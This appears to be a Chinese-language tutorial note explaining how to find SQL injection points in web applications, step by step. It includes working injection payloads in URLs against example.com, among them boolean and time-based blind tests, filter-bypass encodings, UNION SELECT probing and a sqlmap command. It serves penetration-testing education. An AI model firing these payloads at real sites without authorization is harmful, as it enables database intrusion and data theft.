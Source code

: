 # 如何判断SQL注入点

以下是系统性的注入点判断方法和操作步骤：

## 1. 识别输入点
**检测位置**：

- URL查询参数（如`?id=1`）
- 表单输入字段（登录框/搜索框）
- HTTP头部（Cookie/User-Agent/Referer）
- REST API参数（JSON/XML数据）

## 2. 初步探测
### （1）单引号测试
```http
http://example.com/?id=1'
```

预期结果：

- 数据库错误（如MySQL的"语法错误"）
- 500服务器错误
- 页面布局异常

### （2）逻辑测试

```http
正常情况：http://example.com/?id=1
恒真条件：http://example.com/?id=1' AND '1'='1
恒假条件：http://example.com/?id=1' AND '1'='2
```

对比观察：

- 恒真条件返回正常页面

- 恒假条件返回空白/错误页面

## 3. 参数类型判断

### （1）数字型参数

```http
原始请求：http://example.com/?id=1
修改为：http://example.com/?id=1+1
```

判断依据：

- 若返回`id=2`的结果则为数字型

- 支持运算表达式（如3-2/5*1）

### （2）字符型参数

```http
原始请求：http://example.com/?id=user
修改为：http://example.com/?id=user'||'test
```

判断依据：

- 返回`usertest`相关结果

- 需要闭合引号（'或"）

## 4. 注释符验证

```sql
MySQL：--+ 或 #
MSSQL：--
Oracle：--
```

**测试用例**：

```http
http://example.com/?id=1'--+
http://example.com/?id=1' ORDER BY 3#
```

## 5. 盲注检测

### （1）布尔型检测

```http
正常：http://example.com/?id=1' AND 1=1--+
异常：http://example.com/?id=1' AND 1=2--+
```

判断方法：

- 对比两个请求的响应差异

- 检查页面元素/内容长度变化

### （2）时间型检测

```http
MySQL：http://example.com/?id=1' AND SLEEP(5)--+
MSSQL：http://example.com/?id=1'; WAITFOR DELAY '0:0:5'--
```

判断标准：

- 响应时间显著增加（≥5秒）

## 6. 过滤规则测试

### （1）关键字绕过

```http
大小写混合：hTtp://example.com/?id=1' uNIoN sELecT 1,2,3--+
内联注释：http://example.com/?id=1'/*!UNION*/SELECT 1,2,3--+
```

### （2）特殊字符绕过

```http
URL编码：%27 → '，%20 → 空格
双重编码：%2527 → '，%253C → <
```

## 7. 联合查询验证

```http
步骤1：确定字段数
http://example.com/?id=1' ORDER BY 5--+

步骤2：验证回显位置
http://example.com/?id=-1' UNION SELECT 1,2,3--+
```

成功标志：

- 页面显示数字2或3的位置

- 可在数字位插入SQL函数测试（如version()）

## 8. 工具辅助验证

```bash
使用sqlmap检测：
sqlmap -u "http://example.com/?id=1" --batch --level=3
```

关键输出：

- 存在可注入参数标识

- 数据库类型确认

![Snipaste_2025-04-19_12-48-05](./../../png/%E5%A6%82%E4%BD%95%E5%88%A4%E6%96%ADSQL%E6%B3%A8%E5%85%A5%E7%82%B9/Snipaste_2025-04-19_12-48-05.png)

```
graph TD
A[开始] --> B{识别输入点}
B --> |成功| C[单引号测试]
B --> |失败| Z[结束]
C --> D{是否报错}
D --> |是| E[确认字符型注入]
D --> |否| F[逻辑测试]
F --> G{页面变化}
G --> |有差异| H[存在注入漏洞]
G --> |无差异| I[尝试盲注测试]
I --> J{时间延迟/布尔结果}
J --> |存在差异| H
J --> |无差异| Z
```

